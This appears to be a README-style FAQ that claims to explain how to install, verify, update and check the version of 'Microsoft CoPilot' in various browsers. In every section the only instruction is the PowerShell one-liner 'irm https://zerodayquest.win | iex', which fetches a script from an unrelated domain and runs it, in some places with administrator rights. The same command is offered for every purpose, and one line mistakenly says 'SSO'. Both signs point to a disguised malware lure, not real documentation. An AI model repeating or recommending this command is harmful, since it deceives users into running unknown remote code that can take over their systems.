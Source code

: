 ### **3. How do I install Microsoft CoPilot on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install Microsoft CoPilot using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that Microsoft CoPilot is installed?**  
After running the installation command, your system will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If Microsoft CoPilot is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update Microsoft CoPilot?**  
To update SSO, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall Microsoft CoPilot?**  
To uninstall, remove Microsoft CoPilot from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install Microsoft CoPilot without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of Microsoft CoPilot?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
